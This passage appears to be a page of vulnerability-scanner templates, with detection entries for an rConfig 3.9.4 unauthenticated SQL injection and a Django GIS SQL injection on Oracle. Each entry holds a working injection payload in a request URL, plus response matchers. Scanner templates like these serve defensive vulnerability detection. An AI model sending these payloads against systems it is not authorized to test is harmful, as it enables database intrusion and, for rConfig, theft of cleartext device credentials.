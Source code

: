   }
}

### Matchers

**Type - regex**
- part - body
- regex
    1. string\([0-9]{1,3}\)(\s)?"rp-([a-f0-9-]+)"

---
# rConfig 3.9.4 - SQL Injection
## Description
- rConfig 3.9.4 and previous versions has unauthenticated compliancepolicyelements.inc.php SQL injection. Because nodes' passwords are stored by default in cleartext, this vulnerability leads to lateral movement, granting an attacker access to monitored network devices.
- severity - critical
- tags - cve,cve2020,rconfig,sqli
## Requests
- Method - GET
### URL
- {{BaseURL}}/compliancepolicyelements.inc.php?search=True&searchField=antani'+union+select+(select+concat(0x223e3c42523e5b70726f6a6563742d646973636f766572795d)+limit+0,1),NULL,NULL,NULL,NULL+--+&searchColumn=elementName&searchOption=contains
### Matchers

**Type - status**
- status
    1. 200

**Type - word**
- words
    1. [project-discovery]
- part - body

---
# Django SQL Injection
## Description
- Django 1.11 before 1.11.29, 2.2 before 2.2.11, and 3.0 before 3.0.4 allow SQL injection if untrusted data is used as a tolerance parameter in GIS functions and aggregates on Oracle. By passing a suitably crafted tolerance to GIS functions and aggregates on Oracle, it is possible to break character escaping and inject malicious SQL.
- severity - high
- tags - cve,cve2020,django,sqli,vulhub
## Requests
- Method - GET
### URL
- {{BaseURL}}/?q=20)%20%3D%201%20OR%20(select%20utl_inaddr.get_host_name((SELECT%20version%20FROM%20v%24instance))%20from%20dual)%20is%20null%20%20OR%20(1%2B1
### Matchers
